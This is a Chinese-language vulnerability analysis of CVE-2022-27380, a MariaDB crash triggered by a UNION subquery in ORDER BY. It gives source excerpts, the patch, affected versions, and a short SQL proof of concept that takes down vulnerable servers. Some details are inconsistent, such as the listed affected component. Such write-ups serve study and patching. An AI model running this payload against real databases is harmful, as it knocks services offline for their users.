



# CVE-2022-27380 CWE-89 MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。

## 漏洞原理

MariaDB 在处理 单行子查询用于排序（ORDER BY） 时未正确校验其返回值，当子查询（如 SELECT 1.1 UNION SELECT -1）实际返回多行时，系统错误地认为其始终有值，并将其结果用于排序键构造。由于内部函数 val_decimal_result() 返回了 NULL，但排序函数未做空指针检查，直接调用 to_binary()，最终导致 空指针解引用并触发崩溃（SIGSEGV），形成拒绝服务漏洞。

## 漏洞定位

分析 MariaDB 10.6.3：

1. 在 sql\filesort.cc 文件，第 1307 行的`Type_handler_decimal_result::make_sort_key_part`方法，第 1311 行，如果函数 `item->val_decimal_result(&dec_buf)` 返回了 `NULL`，而在第 1321 行调用代码**没有检查 dec_val 是否为 NULL**，直接调用了 `to_binary()`。这导致空指针解引用，触发了 **Signal 11 (SIGSEGV)** 。

   ```cpp
   // filesort.cc 文件，第 1307 行
   void Type_handler_decimal_result::make_sort_key_part(uchar *to, Item *item,
                                               const SORT_FIELD_ATTR *sort_field,
                                               Sort_param *param) const
   {
       // 第 1311 行
     my_decimal dec_buf, *dec_val= item->val_decimal_result(&dec_buf);
     if (item->maybe_null())
     {
       if (item->null_value)
       {
         memset(to, 0, sort_field->length + 1);
         return;
       }
       *to++= 1;
     }
       // 第 1321 行
     dec_val->to_binary(to, item->max_length - (item->decimals ? 1 : 0),
                        item->decimals);
   }
   ```

2. 在 sql\sql_class.cc 文件，第 3611 行，`select_singlerow_subselect::send_data`方法用于执行一个子查询（Item_singlerow_subselect）并尝试获取其唯一一行结果。其中第 3615 行的判断语句用于检查这个子查询的结果是否已经“被赋值”过，单行子查询**只能返回一行结果**。所以如果这个函数被调用**第二次**，就说明子查询返回了**第二行或更多行**，这是不被允许的。当子查询返回多行时，它会设置错误，但不会初始化目标变量的值。如果上层调用者**没有检查是否出错/是否未赋值**，就会返回 NULL，导致 `to_binary()` 等函数空指针解引用，从而触发崩溃。

   ```cpp
   // sql_class.cc 文件，第 3611 行
   int select_singlerow_subselect::send_data(List<Item> &items)
   {
     DBUG_ENTER("select_singlerow_subselect::send_data");
     Item_singlerow_subselect *it= (Item_singlerow_subselect *)item;
       // 3615 行
     if (it->assigned())
     {
       my_message(ER_SUBQUERY_NO_1_ROW, ER_THD(thd, ER_SUBQUERY_NO_1_ROW),
                  MYF(current_thd->lex->ignore ? ME_WARNING : 0));  // 报错：子查询返回多于一行
       DBUG_RETURN(1);
     }
     List_iterator_fast<Item> li(items);
     Item *val_item;
     for (uint i= 0; (val_item= li++); i++)
       it->store(i, val_item);
     it->assigned(1);
     DBUG_RETURN(0);
   }
   ```

3. 在 sql\item_subselect.cc 文件，第 1326 行`Item_singlerow_subselect::fix_length_and_dec`方法用于在优化器阶段（prepare/fix_fields）设定子查询返回值的类型、长度、小数精度，以及是否可能为 NULL，为后续查询执行阶段做准备。

   其中第 1347 行的判断语句，如果子查询没有使用表（`no_tables()`），则其 NULL 性由 `may_be_null()` 决定。但是**未考虑 UNION 子查询**（engine_type = UNION_ENGINE）也可能返回多行。导致错误设定 `maybe_null = false`，上层代码错误地认为返回值永远有效，从而跳过 NULL 检查。

   对于 UNION 子查询（如 `(SELECT x FROM t1 UNION SELECT y FROM t2)`），即使 `no_tables()` 为真，也有可能**返回多行或空行**。但这里只用 `no_tables()` 判断是否调用 `may_be_null()`，忽略了 `UNION_ENGINE` 类型，这会导致 **`maybe_null = false` 被错误设定**。

   ```cpp
   // item_subselect.cc 文件，第 1326 行
   bool Item_singlerow_subselect::fix_length_and_dec()
   {
       // 处理子查询列数和缓存结构分配
     if ((max_columns= engine->cols()) == 1)
     {
       if (engine->fix_length_and_dec(row= &value))
         return TRUE;
     }
     else
     {
       if (!(row= (Item_cache**) current_thd->alloc(sizeof(Item_cache*) *
                                                    max_columns)) ||
           engine->fix_length_and_dec(row))
         return TRUE;
       value= *row;
     }
       
       // 设置无符号标志，用于继承子查询结果的无符号标志，供父级表达式使用，比如整数比较
     unsigned_flag= value->unsigned_flag;
    
       // ********** 第 1347 行 ************ 设置 maybe_null 属性 ******* 漏洞点 ***********
     if (engine->no_tables())
       set_maybe_null(engine->may_be_null());
     else
     {
       for (uint i= 0; i < max_columns; i++)
         row[i]->set_maybe_null();
     }
     return FALSE;
   }
   ```

   

调用链

```scss
UPDATE ... ORDER BY (SELECT 1.1 UNION SELECT -1)
        ↓
Item_singlerow_subselect → send_data() → 多行 → 报错但未阻断执行
        ↓
fix_length_and_dec() 误设 maybe_null = false
        ↓
make_sort_key_part() → val_decimal_result() 返回 NULL
        ↓
dec_val->to_binary(...) → 空指针解引用 → SIGSEGV 崩溃
```

## 漏洞修复


升级到 MariaDB 10.4.25、10.5.16、10.6.8、10.7.4 或包含提交 `3c209bfc040ddfc41ece8357d772547432353fd2` 的更高版本。该补丁将 UNION 单行子查询视为可为空，即使它们的各个表达式看起来不可为空，从而防止稍后的排序/小数转换路径在“多行”错误后取消引用 NULL 结果。

在升级之前，限制生成列的不受信任创建，并避免在生成列或排序键使用的表达式中使用 UNION 子查询。等效的查询形式仍可能触发该问题，因此 SQL 过滤只是暂时的。
在 `Item_singlerow_subselect::fix_length_and_dec` 函数中添加条件以排除 UNION 子查询。

```cpp
bool Item_singlerow_subselect::fix_length_and_dec()
{
  if ((max_columns= engine->cols()) == 1)
  {
    if (engine->fix_length_and_dec(row= &value))
      return TRUE;
  }
  else
  {
    if (!(row= (Item_cache**) current_thd->alloc(sizeof(Item_cache*) *
                                                 max_columns)) ||
        engine->fix_length_and_dec(row))
      return TRUE;
    value= *row;
  }
  unsigned_flag= value->unsigned_flag;
  /*
    If the subquery has no tables (1) and is not a UNION (2), like:

      (SELECT subq_value)

    then its NULLability is the same as subq_value's NULLability.

    (1): A subquery that uses a table will return NULL when the table is empty.
    (2): A UNION subquery will return NULL if it produces a "Subquery returns
         more than one row" error.
  */
  if (engine->no_tables() &&
      engine->engine_type() != subselect_engine::UNION_ENGINE)  // Revised section, added judgment criteria
    maybe_null= engine->may_be_null();
  else
  {
    for (uint i= 0; i < max_columns; i++)
      row[i]->maybe_null= TRUE;
  }
  return FALSE;
}
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

**影响组件**：Field::set_default

## 环境搭建


使用 MariaDB 10.6.3、管理员 `root`、密码 `12345`、数据库 `test_db` 和端口 3306 启动 Docker 环境。此目录中的捆绑 SQL 文件被错误标记为 CVE-2022-27381，因此请改用 PoC 分析部分中显示的 CVE-2022-27380 SQL。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现


1.进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、root用户登录，连接数据库test_db，密码12345

```sql
mariadb -u root -p test_db
```

3. 将 PoC 分析部分的三个 CVE-2022-27380 SQL 语句粘贴到客户端。易受攻击的服务器在处理 `ORDER BY` 表达式中的标量子查询时终止。

```sql
CREATE TABLE v0 (v1 INTEGER);
INSERT INTO v0 (v1) VALUES (8);
UPDATE v0 SET v1 = 1 ORDER BY (SELECT 1.1 UNION SELECT -1);
```



4、查看MariaDB崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明是SegmentationFault（段错误）导致DoS。可以在`my_decimal::to_binary()`组件中看到问题，并对应漏洞原理。

```bash
docker logs mariadb-10.6.3
```



## POC分析


```sql
CREATE TABLE v0 ( v1 INTEGER ) ;

INSERT INTO v0 ( v1 ) VALUES ( 8 ) ;
UPDATE v0 SET v1 = 1 ORDER BY ( SELECT 1.1 UNION SELECT -1 );
```

在此 ORDER BY 子句中，(SELECT 1.1 UNION SELECT -1) 是一个子查询表达式，它返回两行 DECIMAL 类型值：1.1 和 -1。 MariaDB引擎将其解释为标准子查询表达式，但默认情况下它期望只返回一行，但实际上返回**两行**，这**违反了语义**。

MariaDB检测到子查询返回多行，报错 `ER_SUBQUERY_NO_1_ROW` ，但只返回错误码，没有将上层表达式标记为不可用。因此，排序函数继续使用表达式作为排序键，导致后续错误。

## 参考链接


[ NVD - CVE-2022-27380 ](https://nvd.nist.gov/vuln/detail/CVE-2022-27380)

[[MDEV-26280\] MariaDB server crash at my_decimal::operator= - Jira](https://jira.mariadb.org/browse/MDEV-26280)

[[MDEV-25994\] Crash with union of my_decimal type in ORDER BY clause - Jira](https://jira.mariadb.org/browse/MDEV-25994)

[ MDEV-25994: Crash with union of my_decimal type in ORDER BY clause · MariaDB/server@3c209bf ](https://github.com/MariaDB/server/commit/3c209bfc040ddfc41ece8357d772547432353fd2#diff-9db6bb56e58fb0c194bc33d715906535486395713c3157473ce6ea6b23d91bff)
